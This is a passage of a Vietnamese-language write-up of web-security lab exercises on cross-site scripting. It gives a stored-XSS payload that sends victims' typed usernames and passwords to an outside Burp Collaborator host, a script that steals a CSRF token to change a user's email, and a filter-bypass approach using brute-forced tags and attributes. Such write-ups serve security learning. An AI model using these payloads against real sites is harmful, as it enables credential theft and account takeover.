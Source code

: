 Thay đổi session của mình thành session thu được, kết quả thành công.

# 15. Exploiting cross-site scripting to capture passwords
Ta submit một comment với nội dung như sau:
```
Username: <input name="username" id="username"> <br>
Password: <input name="password" id="password" onchange="fetch('https://yfhfkkabiq0rnkku9iwffoxap1vsjh.oastify.com?usr='+username.value+'&amp;pwd='+this.value)">
```

Như vậy khi nạn nhân thấy hai form username và password, nếu user đó nhập thông tin thì một request sẽ được gửi đến Burp Collaborator Server, chứa các thông tin đó. Vào Burp Collaborator Client kiểm tra, ta thấy một request được gửi đến.

![image](https://user-images.githubusercontent.com/103978452/208921051-584d40d0-11b0-4702-92e3-7fa43d05962f.png)

Dùng thông tin thu được để login, kết quả thành công.

# 16. Exploiting XSS to perform CSRF
Ta submit một comment với phần body có nội dung:
```
<script>
xhr = new XMLHttpRequest();
xhr.onreadystatechange = () => {
    let res = xhr.responseText;
    let csrf = new DOMParser().parseFromString(res, 'text/html').querySelector('input[name=csrf]').value;
    let params = 'email=attacker%40gmail.com&csrf='+csrf;
    xhr2 = new XMLHttpRequest();
    xhr2.open('POST', '/my-account/change-email');
    xhr2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr2.send(params);
}
xhr.open('GET', '/my-account');
xhr.send();
</script>
```
Đoạn code trên khi được thực thi sẽ truy cập `/my-account`, lấy ra csrf token rồi dùng csrf token đó để thực hiện đổi email của người dùng. Sau khi submit, kết quả thành công.

# 17. Reflected XSS into HTML context with most tags and attributes blocked
Ta thấy chức năng search đã chặn các tag HTML. Thử đưa request `GET /?search=<script>` vào Intruder rồi tiến hành bruteforce `script`, với danh sách là tên các tags. Ta thấy đối với tag `<body>` thì không hiển thị lỗi.

Thử payload `<body onload=alert(1)>` thì hiển thị lỗi `"Attribute is not allowed"`, website đã chặn hầu hết các attribute. Tiến hành brutefoce như trên đối với attribute thì phát hiện ta vẫn có thể sử dụng `onresize`.

